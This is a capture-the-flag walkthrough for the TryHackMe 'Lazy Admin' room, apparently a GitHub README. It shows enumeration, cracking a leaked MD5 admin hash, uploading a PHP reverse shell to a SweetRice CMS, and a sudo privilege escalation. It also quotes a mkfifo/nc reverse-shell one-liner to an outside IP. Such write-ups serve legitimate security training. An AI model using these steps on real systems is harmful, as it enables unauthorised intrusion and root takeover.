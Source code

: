# LazyAdmin-TryHackMe

# Lazy Admin

[link to room](https://tryhackme.com/room/lazyadmin)

TASK -1 USER FLAG

## Enumeration(NMAP)
nmap -sC -sV -oN nmap MACHINE_IP
```
# Nmap 7.80 scan initiated Sun Nov 22 00:03:22 2020 as: nmap -sC -sV -oN nmap MACHINE_IP
Nmap scan report for MACHINE_IP
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 22 00:03:53 2020 -- 1 IP address (1 host up) scanned in 30.19 seconds

```
```
Open the webpage int broswer http://MACHINE_IP
```
RUN Gobuster/Dirbuster To enumerate and find hidden directories
```bash
gobuster dir -u http://MACHINE_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```
/content
```
```
Open the webpage int broswer http://MACHINE_IP/content
```
```AT MACHINE_IP/content
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```

RUN Gobuster on MACHINE_IP/content
```bash
gobuster dir -u http://lazyadmin.com/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/inc
```
```bash
OPEN AT BROSWER MACHINE_IP/content/inc
```
```
we will see a folder named mysql_backup, navigate to mysql_backup and download the file ,open the file using any text editor.
```
```downloaded_sql_file
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\
"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:
\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p>
```
```creds
We can see that username is manager and password is hashed
```
```bash
run hash-identifier to find out hash type it is MD5
```
```bash
echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt
john hash.txt --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
```

```creds
We get Password
```
```bash
We find login page at MACHINE_IP/content/as in browser, Login with the username and password.
```
GOTO to media center ADS and upload the reverse shell if you dont have you can download it from the link below
[php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Change the ip the reverse shell php script to your tun0, run ifconfig to find your tun0 address
Set port of preferable choice 1234 or 443. save it and upload the file and give it a name click submit and file is uploaded at http://MACHINE_IP/content/inc/ads/yourfilename.php

open terminal and execute this
```bash
nc -lnvp portnumber_you_gave_in_script
``` 
now click on the uploaded file and spawn a shell

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```
This command is used to spawn a tty terminal, move to /home/itguy

```
cat user.txt We get the first flag. TASK-1 Completed..!!
```

TASK-2 ROOT FLAG

## Privilege Escalation


```
cat backup.pl, its a perl script
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
this script executes another script /etc/copy.sh

```bash 
cat /etc/copy.sh
```
```contents_of_copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
we cant run this..
```
```
sudo -l
we can run this : /usr/bin/perl /home/itguy/backup.pl
that is copy.sh needs to be modified for reverse shell
```
```bash
echo "/bin/bash" > /etc/copy.sh
```

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```
```bash
whoami
we are root user, navigate to root and you can find root.txt, cat it to get root flag
TASK-2 Completed..!!
```
